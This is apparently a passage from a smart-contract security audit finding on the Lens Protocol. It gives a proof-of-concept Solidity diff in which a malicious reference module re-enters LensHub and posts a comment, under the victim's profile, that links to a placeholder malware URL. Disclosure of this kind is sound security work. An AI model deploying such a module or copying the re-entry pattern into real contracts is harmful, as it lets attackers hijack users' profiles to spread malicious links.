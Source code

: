 ### [](#proof-of-concept-5)Proof of Concept

According to the developers in the contest discord, the intention is for the whitelisting of modules to eventually be disabled altogether, or moved to be controlled by a DAO. The main purpose of the whitelist is to make sure that the modules written and used by everyone are built and scoped appropriately, not to limit calls to outside contracts (i.e. the module does what it does in the most efficient manner, using the method requiring the fewest outside contract calls). As such it’s reasonable to assume that at some point in the future, an attacker will be able to find or write a ReferenceModule that enables him/her to trigger a function in a contract he/she owns (e.g. transfer an NFT, triggering an ERC721 pre-transfer approval check callback). Below is a version of this where, for simplicity’s sake, the malicious code is directly in the module rather than being called by a callback somehow.

    diff --git a/MockReferenceModule.sol.original b/MockReferenceModule.sol
    index 2552faf..0fe464b 100644
    --- a/MockReferenceModule.sol.original
    +++ b/MockReferenceModule.sol
    @@ -3,23 +3,46 @@
     pragma solidity 0.8.10;
     
     import {IReferenceModule} from '../interfaces/IReferenceModule.sol';
    -
    +import {ILensHub} from '../interfaces/ILensHub.sol';
    +import {DataTypes} from '../libraries/DataTypes.sol';
     contract MockReferenceModule is IReferenceModule {
         function initializeReferenceModule(
             uint256 profileId,
             uint256 pubId,
             bytes calldata data
    -    ) external pure override returns (bytes memory) {
    +    ) external override returns (bytes memory) {
             uint256 number = abi.decode(data, (uint256));
             require(number == 1, 'MockReferenceModule: invalid');
    +        l = msg.sender;
             return new bytes(0);
         }
     
    +    address l;
    +    bool a;
         function processComment(
             uint256 profileId,
             uint256 profileIdPointed,
             uint256 pubIdPointed
    -    ) external override {}
    +    ) external override {
    +        if (a) return;
    +        a = true;
    +        bytes memory garbage;
    +        string memory handle = "attack.eth";
    +        uint256 pid = ILensHub(l).getProfileIdByHandle(handle);
    +        ILensHub(l).comment(
    +            DataTypes.CommentData(
    +                profileId,
    +                // make their comment and thus their profile link
    +                // to our malicious payload
    +                "https://yourCommentIsNowOnALinkToMalware.com/forever",
    +                profileIdPointed,
    +                pubIdPointed,
    +                ILensHub(l).getCollectModule(profileIdPointed, pubIdPointed),
    +                garbage,
    +                address(0x0),
    +                garbage
    +        ));
    +    }
     